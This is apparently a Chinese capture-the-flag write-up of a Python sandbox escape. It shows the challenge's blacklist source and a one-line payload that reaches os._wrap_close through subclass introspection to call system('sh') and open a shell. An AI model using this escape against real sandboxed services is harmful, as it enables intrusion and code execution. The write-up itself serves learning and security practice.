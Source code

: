 ![image-20221115221142631](../.gitbook/assets/image-20221115221142631.png)

import被ban了
![image-20221115221212973](../.gitbook/assets/image-20221115221212973.png)

open被ban了
![image-20221115221300389](../.gitbook/assets/image-20221115221300389.png)

还是从头开始找os

发现`<class 'os._wrap_close'>`在倒数第六个
`().__class__.__base__.__subclasses__()[-6].__init__.__globals__['system']('sh')`

```py
import load_flag

BLACKLIST = ['__loader__', '__import__', 'compile', 'eval', 'exec', 'open','print']

exec_func = exec
compile_func = compile
print_func = print

for k in BLACKLIST:
    del __builtins__.__dict__[k]

del __loader__, __builtins__

flag = load_flag.get_flag()

def main():
    repl()
    
def repl():
    my_global_dict = dict()
    my_global_dict['my_flag'] = flag
    input_code = input("> ")
    complie_code = compile_func(input_code, '<string>', 'single')
    exec_func(complie_code, my_global_dict)
```